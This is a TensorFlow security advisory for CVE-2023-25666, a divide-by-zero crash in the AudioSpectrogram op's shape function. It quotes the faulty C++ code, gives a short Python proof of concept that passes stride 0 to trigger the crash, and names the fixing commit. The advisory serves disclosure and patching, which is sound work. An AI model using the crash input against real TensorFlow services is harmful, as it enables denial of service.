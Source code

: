 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2023-008.md
## TFSA-2023-008: FPE in AudioSpectrogram 

### CVE Number
CVE-2023-25666

### Impact
version:2.11.0 audio_ops.cc:70

Status SpectrogramShapeFn(InferenceContext* c) { ShapeHandle input; TF_RETURN_IF_ERROR(c->WithRank(c->input(0), 2, &input)); int32_t window_size; TF_RETURN_IF_ERROR(c->GetAttr("window_size", &window_size)); int32_t stride; TF_RETURN_IF_ERROR(c->GetAttr("stride", &stride)); .....[1]

DimensionHandle input_length = c->Dim(input, 0); DimensionHandle input_channels = c->Dim(input, 1);

DimensionHandle output_length; if (!c->ValueKnown(input_length)) { output_length = c->UnknownDim(); } else { const int64_t input_length_value = c->Value(input_length); const int64_t length_minus_window = (input_length_value - window_size); int64_t output_length_value; if (length_minus_window < 0) { output_length_value = 0; } else { output_length_value = 1 + (length_minus_window / stride); .....[2] } output_length = c->MakeDim(output_length_value); }

Get the value of stride at [1], and the used at [2]
```python
import tensorflow as tf

para = {'input': tf.constant([[14.], [24.]], dtype=tf.float32), 'window_size': 1, 'stride': 0, 'magnitude_squared': False}
func = tf.raw_ops.AudioSpectrogram

@tf.function(jit_compile=True)
def fuzz_jit():
   y = func(**para)
   return y

fuzz_jit()
```

### Patches
We have patched the issue in GitHub commit [d0d4e779da0d0f56499c6fa5ba09f0a576cc6b14](https://github.com/tensorflow/tensorflow/commit/d0d4e779da0d0f56499c6fa5ba09f0a576cc6b14).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx






